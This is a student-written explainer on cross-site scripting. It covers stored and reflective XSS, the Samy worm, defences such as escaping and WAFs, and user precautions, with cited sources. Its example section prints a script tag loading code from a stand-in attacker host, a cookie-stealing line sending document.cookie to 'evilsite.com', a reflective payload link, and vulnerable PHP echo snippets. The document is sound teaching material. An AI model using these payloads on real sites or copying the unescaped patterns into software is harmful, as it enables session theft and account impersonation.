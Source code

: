 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-Site Scripting and Why is it Dangerous?
-----------------------------------------------------


XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. Most of the danger lies on the users of the 
sites, as the code targets their information and use rather than the website itself. [XSS]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords, 
	    
	3. Phishing, or sending out fake and/or malicious emails, usually to steal user 
	   data such as usernames and passwords. 
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
These attacks can be damaging if the attacker manages to steal a user's username and/or 
password. They can be used to get into user accounts and either use their accounts as 
dummy accounts to send out other attacks, steal the users private, saved information, 
or could be used to purchase items in the users's name if their purchasing information is 
included in the account, such as an Amazon Prime or credit card account.
	
* There are two different types of XSS attacks, stored and reflective

	* Stored XSS is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective XSS is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
XSS attacks have been around since the start of the web, first becoming a problem when 
JavaScript language was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed his page, and it 
  quickly multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - the most common protection [xss-attacks]_ 
	
	* Many web browsers now come with built-in defenses against some XSS attacks. 
	  This mostly works on reflective XSS, as the browsers can detect when common attack 
	  senarios are run, and can neutralize them even if the user clicks on the link 
	  itself. [Shema]_
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use ``htmlentities()`` , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any un-trusted or un-validated data [xss_cheat_sheet]_
	  
	* One way to do this is to use regular expressions to validate data that is entered. 
	  Regular expressions often include escape characters that would be allowed, such as 
	  ``\.`` for "." Regular expressions can also be used to find special characters 
	  and escape them with a special sequences  such as ``&amp;`` for &. [Watts]_  
	  
	* Many browers use a *blacklist* or a *whitelist* with regular expressions. 
	  The *blacklist* looks for matches to disallowed data, while the *whitelist* 
	  matches valid data. [Shema]_ 
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site where users may expect the ability 
  to use HTML on their personal blogs and/or comments, use a library such as HTML 
  Purifier to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. Phishing 
  attacks are usually heard coming through emails, and happen when the user clicks on a 
  link that leads them to a malicious website. 
  
	* For example, if you get an email saying that your password/username has expired 
	  or needs to be changed, the safest option is to go to a new tab and go to the 
	  website yourself to see if the password/username really needs changed, and if 
	  it does, you can change it through the website itself. 
	  
	* The same process should be used if you get an email saying that your shipping 
	  or billing information needs to be updated for an online order. 

* Make sure that websites that you are visiting are safe, or take precautions before 
  or while you are on the website. 
  
	* Some anti-viruses, such as Norton and Kaspersky, come with web add-ons that will 
	  check out websites when you google them. For Kaspersky, this can show up as a 
	  green tag with a K inside next to websites that it has verified are safe to 
	  visit, a grey version next to links that it cannot verify, and a red version for 
	  links that are deemed dangerous. 

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus. As shown above, these can protect you from 
  malicious links while googling, but they can also protect the user from phishing 
  and keylogging attempts.  

Example of Cross-Site Scripting:
-------------------------------

.. figure:: stored_XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  
  This is stored in the website, and every time someone visits the page, they can 
  have their session cookies stolen. 


	* However, this is harder for hackers to attempt, because they must find a 
	  highly trafficked site that also has a security hole that they can infiltrate. [xss-prevention]_

* Another Stored XSS example would be: 

	* Vulnerability: ``<div id="profile"><?php echo $user['profile']; ?></div>``
	  This only works if the profile is pulled from a database with no escapeing 
	  (discussed above) to protect it. The following script will show how this 
	  vulnerability could be used to steal the user's cookies. This would allow 
	  the hacker to impersonate the user who looked at the website. [xss-attacks]_ 
	 
	* Attack: 
	
	  ``<script>``
	  
		``window.open("http://evilsite.com/cookie_stealer.php?cookie=" + document.cookie, "_blank");``
		
	  ``</script>``

	
* Reflective XSS: Similar to above, except that the user would have to click on the link 
  to activate the code. 
  
* Another reflectve XSS example would be: 

	* Vulnerability: ``<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post">`` 
	  All the attacker needs to do in this case is get the user to click on the link 
	  shown below, and an alert saying "XSS"(code) will pop up.  [xss-attacks]_  	  
	
	* Attack:
	
	  Link: ``/form.php?%22%20onload%3D%22alert(%27XSS%27)%3B``
	  
	  Code: ``<form action="/form.php?" onload="alert('XSS');" method="post">`` 
	  
In real life, this would almost certainly do more harm than a simple pop-up. Some 
examples would be popping up a new form for you to fill out, that would sent the 
data to the hackers, or showing an error with a message saying you need to download 
their specific "software" (most likely malware) to get rid of the error.


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. *XSS Attacks: Cross-site Scripting Exploits and Defense*. N.p.: Syngress, 2007. Print. 

.. [Shema] Shema, Mike. “HTML Injection & Cross-Site Scripting (XSS).” *Hacking Web Apps: Detecting and Preventing Web Application Security Problems* , Syngress, 2012, pp. 23–78.

.. [Watts] Watt, Andrew. *Beginning Regular Expressions*. Indianapolis , IN, Wiley, 2005. Print.  

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

